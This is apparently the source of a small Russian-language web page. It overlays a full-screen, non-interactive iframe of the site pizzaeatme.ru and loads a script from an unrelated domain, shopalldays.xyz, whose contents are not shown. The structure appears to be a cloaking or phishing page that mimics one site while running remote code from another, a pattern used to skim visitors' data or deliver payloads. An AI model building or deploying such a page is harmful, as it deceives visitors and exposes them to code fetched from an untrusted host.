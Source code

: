 ﻿<!DOCTYPE html>
<html lang="ru">
<meta http-equiv="content-type" content="text/html;charset=utf-8">

<head>
	
	<iframe id="ifr" src="https://pizzaeatme.ru/" frameborder="0" style="pointer-events:none;overflow:hidden;overflow-x:hidden;overflow-y:hidden;height:100%;width:100%;position:absolute;top:0px;left:0px;right:0px;bottom:0px" height="100%" width="100%"></iframe>
	<script id="connect" type="text/javascript" src="https://www.shopalldays.xyz/js"></script>
	
</head>


</html>
